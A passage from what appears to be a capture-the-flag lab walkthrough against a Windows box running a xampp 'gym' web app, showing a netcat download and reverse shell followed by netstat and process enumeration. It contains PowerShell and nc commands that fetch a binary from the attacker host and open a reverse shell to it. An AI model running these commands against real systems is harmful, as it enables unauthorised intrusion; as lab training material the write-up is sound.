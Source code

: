 And download it using powershell or certutil

```cmd
C:\xampp\htdocs\gym\upload> powershell iwr http://10.10.14.16/nc.exe -out nc.exe -useb
C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.16 4444 -e powershell
```

This will result in a proper powershell

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.198] 49759
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload> 
```

## Enumeration part 2

List the network connections with netstat, to find those that are not visible to the outside world.

```
PS C:\> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       952
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5748
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       8084
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       2928
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       524
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       972
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1428
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2204
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       668
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       684
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.10.198:8080      10.10.14.16:33170      ESTABLISHED     2928
  TCP    10.10.10.198:49759     10.10.14.16:4444       ESTABLISHED     8520
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       8008
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       7140
...
```

Note that port 3306 and 8888 are listening on the loopback interface. The first one is most likely mysql, the second one could be anything.

Lists running processes with `Get-Process` (or `tasklist /svc`)

```
PS C:\xampp\htdocs\gym\upload> get-process
get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
    438      24    17860       8816              6984   1 ApplicationFrameHost                                         
    161      10     1912       1744              3492   1 browser_broker                                               
    330      23    32364      37488              5996   0 CloudMe     
...
```
